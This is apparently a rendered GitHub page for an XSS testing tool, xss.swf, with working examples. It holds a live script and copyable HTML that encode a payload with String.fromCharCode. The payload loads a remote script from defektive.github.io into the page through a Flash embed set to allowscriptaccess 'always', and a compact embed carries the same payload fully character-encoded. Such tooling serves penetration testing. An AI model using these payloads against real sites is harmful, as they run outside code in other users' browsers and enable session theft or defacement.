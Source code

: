 ## [XSS Testing](https://pwnhub.pw/xss/) / xss.swf

### Requirements

- You'll need to enable flash :D [chrome](https://support.digication.com/hc/en-us/articles/115003963468-Enabling-Flash-for-Google-Chrome-Windows-Macintosh-)

### Examples
**If data shows up here after the 1 second delay, that means the JS was executed.**
<pre id="xss-console-log"></pre>

<script>
(function () {
  let payload = `String.fromCharCode(${"var s=document.createElement('script'); s.src='https://defektive.github.io/xss/dist/xss.js'; document.body.appendChild(s)".split('').map(function (e){return e.charCodeAt(0)}).join(',')})`

  let t = new Date().getTime();

  let embed = document.createElement('embed');
  embed.setAttribute('height', '6');
  embed.setAttribute('width', '6');
  embed.setAttribute('allowscriptaccess', 'always');
  embed.setAttribute('src', 'https://defektive.github.io/xss/dist/xss.swf?t='+t + '&p='+ payload);

  document.body.appendChild(embed);
})();
</script>

---
#### Example used here

```html
<script>
(function () {
  let payload = `String.fromCharCode(${"var s=document.createElement('script'); s.src='https://defektive.github.io/xss/dist/xss.js'; document.body.appendChild(s)".split('').map(function (e){return e.charCodeAt(0)}).join(',')})`

  let t = new Date().getTime();

  let embed = document.createElement('embed');
  embed.setAttribute('height', '400');
  embed.setAttribute('width', '400');
  embed.setAttribute('allowscriptaccess', 'always');
  embed.setAttribute('src', 'https://defektive.github.io/xss/dist/xss.swf?t='+t + '&p='+ payload);

  document.body.appendChild(embed);
})();
</script>
```

#### Super Simple Example
```html

<embed height="400" width="400" allowscriptaccess="always" src="https://defektive.github.io/xss/dist/xss.swf?t=1548861488287&amp;p=String.fromCharCode(118,97,114,32,115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,115,46,115,114,99,61,39,104,116,116,112,115,58,47,47,100,101,102,101,107,116,105,118,101,46,103,105,116,104,117,98,46,105,111,47,120,115,115,47,100,105,115,116,47,120,115,115,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41)">


```
